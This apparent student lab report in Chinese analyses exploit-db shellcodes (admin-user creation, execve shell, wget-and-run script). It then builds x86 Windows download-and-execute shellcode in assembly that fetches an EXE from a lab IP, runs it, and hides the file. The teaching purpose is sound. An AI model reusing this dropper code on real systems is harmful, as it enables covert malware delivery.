






# Shellcode

## 实验要求

- [x] 详细阅读 https://www.exploit-db.com/shellcodes 中的 shellcode。建议找不同功能、不同平台的 3-4 个 shellcode 解读
- [x] 修改示例代码的 shellcode，将其功能改为下载执行，也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows 系统中最简单的下载一个文件的 API 是`URLDownloadToFileA`

## shellcode 解读

### [Windows/x64 - WinExec Add-Admin Dynamic Null-Free Shellcode](https://www.exploit-db.com/shellcodes/48252)

- 这是一个在 Windows x64 环境下添加管理员用户的 shellcode
- 先运行一下，发现报错「访问冲突」，修改主函数，将访问内存的属性修改为可读可写可执行：
    ```c
    int main(int argc, char** argv)
    {
        int (*func)();
        DWORD dwOldProtect;
        VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
        func = (int(*)()) code;
        (int)(*func)();
    }
    ```
- 再次执行<br>

- 系统错误 5 指权限不够，在 Debug 目录下找到对应的 EXE 文件，使用管理员权限可以成功执行<br>

- 用户添加成功，并成功添加至管理员组：<br>

- 程序的汇编源代码分块进行了说明
  - 获取 kernel32.dll 的地址，并压入栈中
    ```
    get_kernel32_address:
    ...
    mov eax, [eax+0x8]     ; EAX = &Kernel32.dll
    push eax
    ```
  - 获取 kernel32.dll 的导出表地址，存储在 EBX 中
    ```
    get_kernel32_export_table:
    ...
    add ebx, eax        ; EBX = &ExportTable
    ```
  - 根据导出表地址，获取导出名字表的地址，存储在 EDX 中
    ```
    get_export_name_table:
    mov edx, [ebx+0x20] ; EDX = RVA ExportNameTable
    add edx, eax        ; EDX = &ExportNameTable
    ```
  - 根据导出表地址，获取导出序号列表的地址，并压入栈中
    ```
    get_export_ordinal_table:
    mov ecx, [ebx+0x24] ; ECX = RVA ExportOrdinalTable
    add ecx, eax        ; ECX = &ExportOrdinalTable
    push ecx
    ```
  - 根据导出表地址，获取导出地址表的地址，并压入栈中
  - 将`WinExec`函数名字符串压入栈中
    ```
    WinExec_String:
    push 0x456E6957 ; EniW
    ```
  - 在导出名字表里查找`WinExec`函数名
  - 找到后获取函数地址，并存储在 EBX 中
  - 添加用户操作，将命令字符串压入栈中，调用`WinExec`函数打开命令行，使用命令行执行命令

### [Linux/x86_64 - execve(/bin/sh) Shellcode](https://www.exploit-db.com/shellcodes/47008)

- 在 Ubuntu 系统下新建`shell.c`文件，并将 C 语言代码粘贴到该文件中
- 使用`gcc -fno-stack-protector -z execstack shell.c -o shell`将 C 语言文件编译链接成可执行文件
- 使用`./shell`运行，将会调用`/bin/sh`

- 汇编源代码较短，主要是将参数压入栈中，然后调用`execve`函数，相比于 Windows 韩静要简单许多
- 最主要的是系统函数的调用，只需要使用对应的数字即可
    ```
    mov 	al,	59			;sys_execve
    ```

### [Linux/x86_64 - Wget Linux Enumeration Script Shellcode](https://www.exploit-db.com/shellcodes/47151)

- 通过`wget`获取脚本并执行，(Φ皿Φ)操作很危险哦~
- 在 Ubuntu 系统下新建`shellcode.c`文件，并将 C 语言代码粘贴到该文件中
- 使用`gcc -o shellcode shellcode.c`将 C 语言文件编译链接成可执行文件
- 由于脚本文件是使用`wget`命令通过 Github 下载下来的，所以需要修改可执行文件的权限：`sudo chmod 777 shellcode`
- `./shellcode`运行，将下载`LinEnum.sh`，该脚本是本地 Linux 枚举和提权辅助脚本：<br>

  <a href="https://asciinema.org/a/CuJWnorOo9cCNZevALkyHw6Fn" target="_blank"></a>
- 在主函数中使用的`mmap`函数是将一个文件或者其它对象映射进内存
  ```cpp
  mmap(0, // 由系统决定映射区的起始地址
  0x100, // 映射区的长度，不足一内存页按一内存页处理
  PROT_EXEC | PROT_WRITE | PROT_READ,   // 页内容可读可写可执行
  MAP_ANON | MAP_PRIVATE, // MAP_ANON 匿名映射，不与任何文件关联
                         // MAP_PRIVATE 建立一个写入时拷贝的私有映射，内存区域的写入不会影响到原文件
  -1, // 匿名映射
  0);   // 被映射对象内容的起点
  ```
- 汇编代码则是调用`wget`下载脚本并执行

## 编写下载执行程序的 shellcode

### 基本下载执行操作

- `URLDownloadToFileA`函数位于`urlmon.dll`，直接加载这个 DLL 似乎不那么方便，但是可以通过`kernel32.dll`中的`LoadLibraryA`函数来加载，这样改写代码的难度就小了很多。（参考：[Windows/x86 - MSVCRT System + Dynamic Null-free + Add RDP Admin + Disable Firewall + Enable RDP Shellcode](https://www.exploit-db.com/exploits/48355)）
- 要注意字符串存储的位置应与`findFunctionAddr`中查找字符串的位置一致
    ```
    ; Push string "GetProcAddress",0x00 onto the stack
    xor eax, eax            ; clear eax register
    mov ax, 0x7373          ; AX is the lower 16-bits of the 32bit EAX Register
    push eax                ;   ss : 73730000 // EAX = 0x00007373 // \x73=ASCII "s"
    push 0x65726464         ; erdd : 65726464 // "GetProcAddress"
    push 0x41636f72         ; Acor : 41636f72
    push 0x50746547         ; PteG : 50746547
    mov [ebp+0x18], esp      ; save PTR to string at bottom of stack (ebp)
    call findFunctionAddr   ; After Return EAX will = &GetProcAddress
    ; EAX = &GetProcAddress
    mov [ebp-0x1C], eax      ; save &GetProcAddress

    ; Call GetProcAddress(&kernel32.dll, PTR "LoadLibraryA"0x00)
    xor edx, edx            ; EDX = 0x00000000
    push edx                ; null terminator for LoadLibraryA string
    push 0x41797261         ; Ayra : 41797261 // "LoadLibraryA",0x00
    push 0x7262694c         ; rbiL : 7262694c
    push 0x64616f4c         ; daoL : 64616f4c
    push esp                ; $hModule    -- push the address of the start of the string onto the stack
    push dword [ebp-0x4]    ; $lpProcName -- push base address of kernel32.dll to the stack
    mov eax, [ebp-0x1C]     ; Move the address of GetProcAddress into the EAX register
    call eax                ; Call the GetProcAddress Function.
    mov [ebp-0x20], eax     ; save Address of LoadLibraryA
    ```
- 接着使用`LoadLibraryA`函数加载`urlmon.dll`
    ```
    ; Call LoadLibraryA(PTR "urlmon")
    ;   push "urlmon",0x00 to the stack and save pointer
    xor eax, eax            ; clear eax
    mov ax, 0x6E6F          ; no : 6E6F
    push eax
    push 0x6D6C7275         ; mlru : 6D6C7275
    push esp                ; push the pointer to the string
    mov ebx, [ebp-0x20]     ; LoadLibraryA Address to ebx register
    call ebx                ; call the LoadLibraryA Function to load urlmon.dll
    mov [ebp-0x24], eax     ; save Address of urlmon.dll
    ```
- 获得`URLDownloadToFileA`函数的地址
    ```
    ; Call GetProcAddress(urlmon.dll, "URLDownloadToFileA")
    xor edx, edx
    mov dx, 0x4165          ; Ae
    push edx
    push 0x6C69466F         ; liFo
    push 0x5464616F         ; Tdao
    push 0x6C6E776F         ; lnwo
    push 0x444c5255         ; DLRU
    push esp    		        ; push pointer to string to stack for 'URLDownloadToFileA'
    push dword [ebp-0x24]   ; push base address of urlmon.dll to stack
    mov eax, [ebp-0x1C]     ; PTR to GetProcAddress to EAX
    call eax                ; GetProcAddress
    ;   EAX = WSAStartup Address
    mov [ebp-0x28], eax     ; save Address of urlmon.URLDownloadToFileA
    ```
- 调用`URLDownloadToFileA`下载`http://192.168.56.13/goosedt.exe`
  ```
  ;URLDownloadToFileA(NULL, URL, save as, 0, NULL)
  download:
  pop eax
  xor ecx, ecx
  push ecx
  ; URL: http://192.168.56.13/goose.exe
  push 0x6578652E         ; exe.
  push 0x74646573         ; tdes
  push 0x6F6F672F         ; oog/
  push 0x33312E36         ; 31.6
  push 0x352E3836         ; 5.86
  push 0x312E3239         ; 1.29
  push 0x312F2F3A         ; 1//:
  push 0x70747468         ; ptth
  push esp
  pop ecx                 ; save the URL string
  xor ebx, ebx
  push ebx
  ; save as hack.exe
  push 0x6578652E         ; exe.
  push 0x6B636168         ; kcah
  push esp
  pop ebx                 ; save the downloaded filename string
  xor edx, edx
  push edx
  push edx
  push ebx
  push ecx
  push edx
  mov eax, [ebp-0x28]     ; PTR to URLDownloadToFileA to EAX
  call eax
  pop ecx
  add esp, 44
  xor edx, edx
  cmp eax, edx
  push ecx
  jnz download            ; if it fails to download , retry contineusly
  pop edx
  ```
- 查找`WinExec`函数，并调用该函数运行`hack.exe`
  ```
  ; Create string 'WinExec\x00' on the stack and save its address to the stack-frame
  mov edx, 0x63657878     ; "cexx"
  shr edx, 8              ; Shifts edx register to the right 8 bits
  push edx                ; "\x00,cex"
  push 0x456E6957         ; EniW : 456E6957
  mov [ebp+0x18], esp     ; save address of string 'WinExec\x00' to the stack-frame
  call findFunctionAddr   ; After Return EAX will = &WinExec

  ; Call WinExec( CmdLine, ShowState );
  ;   CmdLine   = "hack.exe"
  ;   ShowState = 0x00000000 = SW_HIDE - Hides the window and activates another window.
  xor ecx, ecx          ; clear eax register
  push ecx              ; string terminator 0x00 for "hack.exe" string
  push 0x6578652e       ; exe. : 6578652e
  push 0x6B636168       ; kcah : 6B636168
  mov ebx, esp          ; save pointer to "hack.exe" string in eax
  inc ecx               ; uCmdShow SW_SHOWNORMAL = 0x00000001
  push ecx              ; uCmdShow  - push 0x1 to stack # 2nd argument
  push ebx              ; lpcmdLine - push string address stack # 1st argument
  call eax              ; Call the WinExec Function
  ```
- 将汇编指令转化成 code
  ```
  nasm -f win32 win32-Download_Exec-Exit.asm -o win32-Download_Exec-Exit.o
  for i in $(objdump -D win32-Download_Exec-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
  ```
- 为了演示效果本次实验使用的 EXE 文件执行后会释放一只鹅，将会在你的屏幕上捣乱(<ゝωΦ)【因为包含下载运行操作，使用 shellcode 的 EXE 文件前，要加入杀毒软件的信任列表】，实验效果如下：<br>

  

  - 因为没有下配置文件所以会报错，并生成一个配置文件【Σ( ° △ °|||)︴产生多余文件好像不是什么明智的选择】

### 隐藏下载文件

- 隐藏文件使用的是`SetFileAttributesA`函数，修改文件的属性，属于`Kernel32.dll`
- 先找到函数地址，需要调用之前的`GetProcAddress`函数
  ```
  ; Finding address of SetFileAttributesA()
  xor edx, edx
  mov edx, 0x4173		; As
  push edx
  push 0x65747562		; etub
  push 0x69727474		; irtt
  push 0x41656C69		; Aeli
  push 0x46746553		; FteS
  push esp
  push dword [ebp-0x4]	; $lpProcName -- push base address of kernel32.dll to the stack
  mov eax, [ebp-0x1C]	; PTR to GetProcAddress to EAX
  call eax
  ```
- 调用`SetFileAttributesA`函数，将文件隐藏
  ```
  ; Call SetFileAttributesA("hack.exe", FILE_ATTRIBUTE_HIDDEN)
  xor ecx, ecx
  push ecx
  push 0x6578652E         ; exe.
  push 0x6B636168         ; kcah
  mov ebx, esp
  xor edx, edx
  add edx, 2 		; FILE_ATTRIBUTE_HIDDEN
  push edx
  push ebx
  call eax
  ```
- 实验效果如下：<br>

  

## 参考资料

- [Windows 管理用户账号](https://blog.csdn.net/weixin_44520274/article/details/86693403)
- [Buffer Overflow Attacks: Detect, Exploit, Prevent](https://books.google.com.hk/books?id=NYyKhOqOCF8C&pg=PA64&lpg=PA64&dq=mov+%09al,%0959%09%09%09;sys_execve&source=bl&ots=zbE4Xtl8nE&sig=ACfU3U3hHQ2-GoS2WajgsesvVZkMsYpsew&hl=en&sa=X&ved=2ahUKEwjS8KzrhYvpAhXEJaYKHVLaC5MQ6AEwAnoECAsQAQ#v=onepage&q=mov%20%09al%2C%0959%09%09%09%3Bsys_execve&f=false)
- [mmap(2) - Linux manual page](https://www.baidu.com/baidu?wd=mmap&ie=utf-8&tn=monline_4_dg)
- [URLDownloadToFile function](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/ms775123(v=vs.85))
- [SetFileAttributesA function](https://docs.microsoft.com/zh-cn/windows/win32/api/fileapi/nf-fileapi-setfileattributesa?redirectedfrom=MSDN)